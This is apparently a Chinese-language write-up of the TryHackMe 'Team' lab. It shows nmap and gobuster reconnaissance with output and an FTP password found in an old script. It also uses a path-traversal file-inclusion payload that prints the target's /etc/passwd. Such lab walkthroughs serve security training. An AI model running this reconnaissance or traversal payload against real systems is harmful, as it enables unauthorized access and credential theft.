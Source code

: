 # Team
平台：tryhackme
难度：easy

### 扫描

**快速扫描**
```
sudo nmap -Pn --min-rate 10000 -p- 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
```

**版本扫描**
```
sudo nmap -p 21,22,25,80,110 -Pn -sC -sV -O 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.3
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
25/tcp  open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
110/tcp open  pop3?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|general purpose
Running: Actiontec embedded, Linux 2.4.X
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**漏洞扫描**
```
sudo nmap -p 21,22,25,80,110 --script=vuln 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
110/tcp open  pop3
```

**gobuster扫描**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.248.178/ -t 30
```
扫不到。(也不是说扫不到，只是结果没有参考意义。)

- 21端口的ftp不能匿名登录
- 80端口是默认的apache2页面
- 默认页面的源代码有一句话，大致意思就是把team.thm添加到hosts里
- 再次访问http://team.thm，可以进到一个新的页面。
- 这里出现了域名，可以对其进行域名爆破

**对team.thm进行爆破**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://team.thm/ -t 30
```
结果：
```
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
```
**对scripts目录进行二次爆破**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://team.thm/scripts/ -t 30 -x php,txt,html
```
输出
```
/.php                 (Status: 403) [Size: 273]
/.html                (Status: 403) [Size: 273]
/script.txt           (Status: 200) [Size: 597]
```
查看`http://team.thm/scripts/script.txt`，发现有一句`Note to self had to change the extension of the old "script" in this folder, as it has creds in`，等于说这里有个old的script文件里面有用户的凭据。
文件script.old：
```
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
```
登陆ftp试试：



VHOST扫描：
```
gobuster vhost -u http://team.thm/ -w deepmagic.com-prefixes-top50000.txt -k --append-domain
```
扫出来了dev.team.thn是200，加到hosts里，访问一下
`http://dev.team.thm/`点一下页面的链接变为`http://dev.team.thm/script.php?page=teamshare.php`
根据提示这个地方可以变为`http://dev.team.thm/script.php?page=../../../etc/passwd`(文件包含漏洞)，这个地方输出目标系统的/etc/passwd。
    
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
可以看到使用/bin/bash的两个低权限用户gyles和dale




